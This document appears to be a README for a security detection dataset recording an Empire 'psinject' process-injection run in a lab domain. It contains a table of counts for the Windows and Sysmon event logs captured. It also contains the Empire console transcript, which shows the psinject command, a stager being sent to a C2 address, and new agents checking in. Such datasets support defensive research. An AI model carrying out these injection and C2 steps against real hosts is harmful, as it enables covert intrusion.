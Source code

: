 
# Empire Psinject

An adversary can use psinject to execute powershell from any unmanaged process

## Technique(s) ID

T1055

## Creators

Roberto Rodriguez [@Cyb3rWard0g](https://twitter.com/Cyb3rWard0g)

## Dataset

[empire_psinject.tar.gz](./empire_psinject.tar.gz)

## Network Environment

Shire

## Time Taken

2019-03-19151711

## About this file

| log_name                                 | task                                                   |   record_number |
|------------------------------------------|--------------------------------------------------------|-----------------|
| Windows PowerShell                       | Pipeline Execution Details                             |            2166 |
| Windows PowerShell                       | Provider Lifecycle                                     |              16 |
| Windows PowerShell                       | Engine Lifecycle                                       |               2 |
| Security                                 | Filtering Platform Connection                          |             240 |
| Security                                 | Token Right Adjusted Events                            |             179 |
| Security                                 | User Account Management                                |             149 |
| Security                                 | Group Membership                                       |               8 |
| Security                                 | Logon                                                  |               8 |
| Security                                 | Logoff                                                 |               7 |
| Security                                 | Special Logon                                          |               6 |
| Security                                 | File Share                                             |               2 |
| Security                                 | Detailed File Share                                    |               1 |
| Security                                 | Other Object Access Events                             |               1 |
| Security                                 | Process Termination                                    |               1 |
| Security                                 | Sensitive Privilege Use                                |               1 |
| Microsoft-Windows-Sysmon/Operational     | Image loaded (rule: ImageLoad)                         |             293 |
| Microsoft-Windows-Sysmon/Operational     | Process accessed (rule: ProcessAccess)                 |             225 |
| Microsoft-Windows-Sysmon/Operational     | Registry object added or deleted (rule: RegistryEvent) |             217 |
| Microsoft-Windows-Sysmon/Operational     | CreateRemoteThread detected (rule: CreateRemoteThread) |              88 |
| Microsoft-Windows-Sysmon/Operational     | Network connection detected (rule: NetworkConnect)     |              88 |
| Microsoft-Windows-Sysmon/Operational     | File created (rule: FileCreate)                        |              28 |
| Microsoft-Windows-Sysmon/Operational     | Pipe Connected (rule: PipeEvent)                       |              23 |
| Microsoft-Windows-Sysmon/Operational     | Registry value set (rule: RegistryEvent)               |              17 |
| Microsoft-Windows-Sysmon/Operational     | RawAccessRead detected (rule: RawAccessRead)           |               4 |
| Microsoft-Windows-Sysmon/Operational     | Pipe Created (rule: PipeEvent)                         |               1 |
| Microsoft-Windows-Sysmon/Operational     | Process Create (rule: ProcessCreate)                   |               1 |
| Microsoft-Windows-PowerShell/Operational | Executing Pipeline                                     |            2115 |
| Microsoft-Windows-PowerShell/Operational | Execute a Remote Command                               |               1 |
| Microsoft-Windows-PowerShell/Operational | PowerShell Named Pipe IPC                              |               1 |
| Microsoft-Windows-PowerShell/Operational | Starting Command                                       |               1 |


## Empire Activity

```
psinject https 8148
```

```
[*] Tasked G6BYHU4F to run TASK_CMD_JOB
[*] Agent G6BYHU4F tasked with task ID 6
[*] Tasked agent G6BYHU4F to run module powershell/management/psinject
(Empire: G6BYHU4F) > Job started: 2AZBLF
[*] Sending POWERSHELL stager (stage 1) to 10.0.10.104
[*] New agent MPB3UHD1 checked in
[+] Initial agent MPB3UHD1 from 10.0.10.104 now active (Slack)
[*] Sending agent (stage 2) to MPB3UHD1 at 10.0.10.104

(Empire: G6BYHU4F) > 
(Empire: G6BYHU4F) > 
(Empire: G6BYHU4F) > agents

[*] Active agents:

 Name     La Internal IP     Machine Name      Username                Process            PID    Delay    Last Seen            Listener
 ----     -- -----------     ------------      --------                -------            ---    -----    ---------            ----------------
 2MES3XN6 ps 172.18.39.105   IT001             SHIRE\pgustavo          powershell         4312   5/0.0    2019-03-19 14:11:49  https           
 G6BYHU4F ps 172.18.39.105   IT001             *SHIRE\pgustavo         powershell         9156   5/0.0    2019-03-19 14:11:50  https           
 MPB3UHD1 ps 172.18.39.105   IT001             *SHIRE\pgustavo         cmd                8148   5/0.0    2019-03-19 14:11:47  https           


(Empire: agents) >
```